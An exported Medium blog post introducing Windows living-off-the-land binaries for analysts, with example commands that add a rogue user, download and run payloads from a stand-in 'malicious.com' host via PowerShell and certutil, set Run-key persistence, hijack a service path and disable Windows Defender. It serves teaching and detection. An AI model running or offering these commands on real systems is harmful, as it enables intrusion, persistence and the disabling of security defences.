 ```yaml
---
title: "A-Few-Living-Off-The-Land-Binaries-and-Techniques-0903eefd1c33"
date: 2024-03-26
layout: post
categories: medium
---
```



A Few Living-Off-The-Land Binaries and Techniques
=================================================


Living off the Land (LOTL) Binaries, Windows

---

### A Few Living-Off-The-Land Binaries and Techniques

#### Living off the Land (LOTL) Binaries, Windows

![](https://cdn-images-1.medium.com/max/800/1*0btGIciM2lFvwZTYlH5t6w.png)

Courtesy of DALL-E, prompt provided by [Grant Wilsey](https://medium.com/u/36c9d68fafd8)

When it comes to avoiding detection and maintaining access to a newly hacked system, attackers can become very resourceful. They will often employ techniques that leverage existing system tools on the system to remain hidden, maintain persistence, escalation privileges and exfiltrate data from the target. One such strategy is known as “Living off the Land” (LOTL), where attackers utilize legitimate binaries already present on the target system to execute malicious activities, making it harder for traditional security solutions to detect their actions. I’m interested in learning more about Living-off-the-land techniques, so in this blog post we’ll explore the concept of LOTL binaries and showcase a few simple examples that exploit native Windows capabilities.

### Understanding LOTL Binaries

LOTL binaries refer to legitimate executables found on operating systems that attackers repurpose for malicious activities. These binaries are part of the operating system’s standard toolkit and are trusted by security mechanisms, making them ideal for stealthy attacks. By leveraging LOTL binaries, attackers can evade detection and blend in with normal system operations, making it challenging for security analysts to identify their malicious activities.

#### A Few Examples of Living-Off-The-Land Binaries

#### 1. cmd.exe

`cmd.exe`is the standard command-line interpreter on Windows systems. Attackers can abuse this binary for various malicious purposes, such as executing commands, downloading files, or launching other processes. I gather several examples of how cmd.exe can be misused, or rather used with normal functionality except with malicious intent:

**Example 1: Command Execution**

```
cmd.exe /c net user hacker P@ssw0rd123 /add
```

In this example, an attacker that already likely has administrator privileges creates a new user account named “darkyolks” with the password “P@ssw0rd123” using the `net user` command executed via `cmd.exe`. This is a simple way yet effective way that adversaries use native features within Windows environments to maintain persistence.

![](https://cdn-images-1.medium.com/max/800/1*3eGihN7zYK51S0HjGHWq1g.png)

Successful user creation via cmd.exe

![](https://cdn-images-1.medium.com/max/800/1*FRUnF4LCq2GAZnM8l55Uwg.png)

Denied user creation due to invalid privileges.

Proper logging set up for **Windows Event ID 4720** — “A User was created” is one way to detect this type of persistence.

**Example 2: Downloading Files**

```
cmd.exe /c powershell.exe -c “Invoke-WebRequest -Uri http://malicious.com/malicious.exe -OutFile C:\Temp\malicious.exe”
```

Here, the attacker uses `cmd.exe` to invoke **PowerShell** and download a malicious executable from a remote server. `powershell.exe` and `certutil.exe` are LOTL binaries themselves. Malicious.com/malicious.exe is quite suspicious.

#### 2. certutil.exe

`certutil.exe` is a command-line utility for managing digital certificates in Windows. While primarily used for legitimate purposes, attackers can abuse **certutil.exe** for file decoding/encoding and data exfiltration.

**Example 1: Data Exfiltration**

```
certutil.exe -urlcache -split -f http://malicious.com/secret.txt C:\Temp\secret.txt
```

In this example, the attacker uses `certutil.exe` to download a file (secret.txt) from a remote server and save it to the local system.

**Example 2: Encoding and Decoding Files with certutil.exe**

Another trick is using `certutil.exe` for encoding and decoding files, which can obfuscate malicious payloads to evade detection. Here's how you can encode a file:

```
certutil -encode payload.exe encoded_payload.txt
```

To decode the encoded file:

```
certutil -decode encoded_payload.txt decoded_payload.exe
```
#### 3. powershell.exe

`powershell.exe`is a powerful scripting environment built into Windows systems. Attackers commonly abuse PowerShell for various malicious activities, including command execution, file manipulation, and lateral movement. This binary will work similar to `cmd.exe`, as shown in previous examples when PowerShell was called via the command line.

**Example: Command Execution**

```
powershell.exe -ExecutionPolicy Bypass -Command “& {Invoke-Expression (New-Object Net.WebClient).DownloadString(‘http://malicious.com/script.ps1')}"
```

Similar to the `cmd.exe` example, an attacker uses `powershell.exe` to bypass execution policies then download and execute a malicious PowerShell script (script.ps1) from a remote server.

#### 4. reg.exe

`reg.exe` is a built-in Windows utility designed to manipulate the system registry. The system registry a hierarchical database that stores configuration settings and options on Microsoft Windows operating systems. Attackers may abuse `reg.exe` to modify registry keys related to system configurations, user settings, or installed software. By altering these keys, they can achieve persistence, escalate privileges, or even disable security mechanisms.

**Example 1: Achieving Persistence**  
`reg.exe` provides attackers with a convenient way to establish persistence by adding entries to the Windows registry that execute their malicious payloads during system startup.  
Example:

```
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v MaliciousProgram /t REG_SZ /d “C:\Malware\malware.exe” /f
```

In this example, the attacker uses `reg.exe` to add a registry entry under the current user’s `Run` key. This entry specifies the path to the malicious executable (malware.exe), ensuring that it runs every time the user logs in.

**Example 2: Escalating Privileges**

Privilege escalation is another common goal for attackers, as it grants them higher levels of access to the system and potentially allows them to execute more impactful attacks. The binary `reg.exe` can be exploited to escalate privileges by manipulating registry keys associated with system services or user accounts.

```
  
reg add “HKLM\SYSTEM\CurrentControlSet\Services\SomeVulnerableService” /v ImagePath /t REG_EXPAND_SZ /d “C:\Malware\malware.exe” /f
```

In this scenario, the attacker modifies the ‘*ImagePath’* value of a vulnerable system service using `reg.exe`. By replacing the legitimate service executable with their malicious payload (malware.exe), they can execute arbitrary code with elevated privileges the next time the service starts.

**Example 3: Disabling Security Software**

Attackers often seek to disable or bypass security software installed on the compromised system to evade detection and maintain their foothold. The binary `reg.exe` provides attackers with the ability to modify registry keys related to security software settings or configurations.

```
reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender” /v DisableAntiSpyware /t REG_DWORD /d 1 /f  
  

```

This command adds a registry key `DisableAntiSpyware` under `HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender` and sets its value to `1`, which effectively disables Windows Defender permanently.

![](https://cdn-images-1.medium.com/max/800/1*4Gcm4MXLkloUHAptSBmtWA.png)

Disabling Windows Defender with reg.exe via command line.

This screenshot shows the command executing successfully. Note the user running the command needs to be running with administrator privileges in order to make changes to the registry. An attacker may have already escalated their privileges to modify the registry at this stage of their attack.

### Conclusion

Living off the land binaries pose a significant challenge for defenders due to their legitimate nature and widespread use. By understanding the differences of legitimate binaries and malicious ones, analysts are tasked with triaging the events and piecing together the actions taken post-compromise. This essential skills protects

By adopting a proactive approach to security and leveraging threat intelligence, organizations can stay one step ahead of cyber adversaries and mitigate the risks associated with living off the land attacks.

For further research and exploration of LOTL binaries, the [LOLBAS project](https://lolbas-project.github.io/) provides a comprehensive repository of common LOTL binaries and their respective use cases in offensive security scenarios.



By [Grant Wilsey](https://medium.com/@darkyolks) on [March 26, 2024](https://medium.com/p/0903eefd1c33).

[Canonical link](https://medium.com/@darkyolks/a-look-into-lotl-binaries-and-techniques-0903eefd1c33)

Exported from [Medium](https://medium.com) on December 27, 2024.

